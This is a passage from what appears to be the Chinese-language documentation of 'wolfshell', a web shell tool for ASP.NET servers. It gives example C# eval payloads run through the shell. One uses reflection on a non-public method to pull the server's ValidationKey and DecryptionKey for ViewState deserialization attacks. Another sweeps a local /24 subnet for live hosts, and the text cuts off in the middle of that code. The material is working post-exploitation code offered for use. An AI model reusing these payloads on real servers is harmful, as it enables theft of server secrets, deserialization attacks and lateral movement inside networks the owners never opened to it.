 ![FileMgr](http://www.18k.icu/img/wolfshell/FileMgr.png)


### C#代码执行

#### 获取 ValidationKey 示例代码

*   ValidationKey：提取ValidationKey、Validation、DecryptionKey等ViewState反序列化信息

```csharp

using System;
using System.Reflection;
using System.Web.Configuration;
public class Eval
{
public string eval(Object obj)
{
var sy = Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
var gac = mkt.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
var cg = (MachineKeySection)gac.Invoke(null, new object[0]);
return "ValidationKey: " + cg.ValidationKey + " | " + "Validation: " + cg.Validation + " | " + "DecryptionKey: " + cg.DecryptionKey + " | " + "Decryption: " + cg.Decryption + " | " + "CompatibilityMode: " + cg.CompatibilityMode;
}
}

```

![C#代码示例](http://www.18k.icu/img/wolfshell/CodeViewKey.png)

#### 扫描C段存活主机 示例代码
```csharp

using System;
using System.Net;
using System.Net.NetworkInformation;
using System.Text;
using System.Threading.Tasks;
public class Eval
{
public string eval(Object obj)
{
StringBuilder iplist = new StringBuilder();
string baseIP = "192.168.1.";
PingOptions options = new PingOptions();
options.DontFragment = true;
var tasks = new Task[254];
for (int i = 1; i < 255; i++)
{
int ipSuffix = i;
tasks[i - 1] = Task.Run(() =>
{
using (Ping myPing = new Ping())
{
PingReply reply = myPing.Send(baseIP + ipSuffix, 120);
if (reply.Status == IPStatus.Success)
{
lock (iplist)
{
iplist.AppendLine("Alive IP: " + reply.Address.ToString());
}
}
```